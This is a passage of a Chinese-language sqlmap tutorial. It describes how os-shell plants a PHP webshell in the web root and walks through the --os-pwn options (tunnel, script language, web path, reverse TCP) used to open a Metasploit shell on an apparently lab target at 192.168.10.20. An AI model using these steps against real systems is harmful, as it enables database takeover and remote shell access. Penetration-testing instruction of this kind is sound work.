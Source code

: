 可以看到，其实执行 os-shell 的过程中，sqlmap 向网站根目录写入两个文件 tmpblwkd.php 和 tmpueqch.php。真正的木马文件是 tmpblwkd.php 。如果是非正常退出 sqlmap 的话，这两个文件不会被删除。只有当我们输入 x 或 q 退出 sqlmap 时，该文件才会被自动删除。

![](https://p5.ssl.qhimg.com/t015a0aa18a923881ee.png)

![](https://p4.ssl.qhimg.com/t01356b89b90db96323.png)

![](https://p5.ssl.qhimg.com/t01c5976157489fa7a4.png)

![](https://p5.ssl.qhimg.com/t01de1bbab11027a0db.png)

### 反弹一个 MSF 的 shell(—os-pwn)

在数据库为 MySQL、PostgreSql 或者 SQL Server 时，可以执行该选项。并且需要当前获取的权限足够高才可以。

```
sqlmap -u "http://192.168.10.20:88/index.php?id=1"  

```

![](https://p5.ssl.qhimg.com/t01b527df2522fbd96c.png)

**选择连接的 tunnel，这里选择默认的 1 就可以了**  
[1] TCP: Metasploit Framework (default)  
[2] ICMP: icmpsh – ICMP tunneling  
> 1

**选择网站的脚本语言，这里根据情况选择**  
[1] ASP  
[2] ASPX  
[3] JSP  
[4] PHP (default)  
> 4

**选择网站的路径，这里也是根据情况而定，如果知道网站路径的话，可以选择 2 然后手动输入**  
[1] common location(s) (‘C:/xampp/htdocs/, C:/wamp/www/, C:/Inetpub/wwwroot/‘) (default)  
[2] custom location(s)  
[3] custom directory list file  
[4] brute force search  
> 2  
please provide a comma separate list of absolute directory paths: C:\phpstudy\WWW

![](https://p1.ssl.qhimg.com/t01ed3941c4c73cca18.png)

**然后选择连接的类型，这里选择默认的 1 即可**

which connection type do you want to use?  
[1] Reverse TCP: Connect back from the database host to this machine (default)  
[2] Reverse TCP: Try to connect back from the database host to this machine, on all ports between the specified and 65535  
[3] Reverse HTTP: Connect back from the database host to this machine tunnelling traffic over HTTP  
[4] Reverse HTTPS: Connect back from the database host to this machine tunnelling traffic over HTTPS  
[5] Bind TCP: Listen on the database host for a connection  
> 1
